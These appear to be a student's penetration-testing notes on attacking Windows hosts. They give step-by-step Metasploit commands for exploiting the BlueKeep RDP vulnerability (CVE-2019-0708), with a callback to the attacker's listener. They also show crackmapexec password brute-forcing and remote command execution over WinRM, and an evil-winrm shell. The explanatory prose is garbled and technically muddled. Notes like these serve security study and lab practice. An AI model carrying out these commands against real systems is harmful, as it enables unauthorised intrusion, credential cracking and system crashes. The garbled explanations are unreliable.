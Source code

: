       
    
      
    
      
    

  

- _==Exploiting Windows CVE-2019-0708 RDP Vulnerability (BlueKeep)==_
    
    > Rce lead to connect to rdp , utilizes attackers to gain access to chunk of kernal memory through this vuln , this chunk where the millic code , the kernel is privileged , the attackers on kernel leads to system crash
    
    1. `_nmap -sV <ip>_` ⇒ to scan for open ports
    2. `msfconsole` && `use auxiliary/scanner/rdp/cve_2019_0708_bluekeep` && `set rhost <target ip >` && `set rport < to port that u expect that carry rdp >` ⇒ to chek if the target is vuln
    3. `msfconsole` && `use exploit/windows/rdp/cve_2019_0708_bluekeep` && `set rhost <target ip >` && `set rport < to port that u expect that carry rdp >` && `set lhost <your ip>` && `set lport 1234` && `set target <windows ver>` ⇒ to exploit this vuln
    
    > if the chunk grooming u will expolited that will lead the system to crash and the data will losse
    
      
    
      
    

  

### Exploiting WinRM ( windows remote management protocol )

> is feature on windows , so it’s not enable by defult , so that should be runned and configerd by the admin of system

> used to facilitate remote access with windows systems over http or https

> when that configuring the network . they can configure every windows host on that network

> can be found on tcp port 5985 or 5986

> the authentication on it , username:password or username:password_hash

  

- ==_WinRM: Exploitation with crackmapxec_==
    
    1. `nmap -sV -p 5985,5986 <target ip>` ⇒ to scan if it enable
    2. ==_`crackmapxec`_== _`winrm <protocol> <target ip> -u administrator <or wordlist> -p /usr/sahre/metasploit…/data/wordlists/unix_password.txt`_ ⇒ that will let us to crack the password of the user
    3. ==_`crackmapxec`_== _`winrm <protocol> <target ip> -u administrator`_ `_-p <password that we found> -x “<command u want to exucute>_` _⇒_ to run command on the system
    
      
    

  

- ==_WinRM: Exploitation with ruby script_==
    
    1. `_evil-winrm.rb -u administrator -p '<the password that we found in crackmapexc>’ -i <target ip>_` _⇒_ to get a command shell session
    
      
    
      
    
      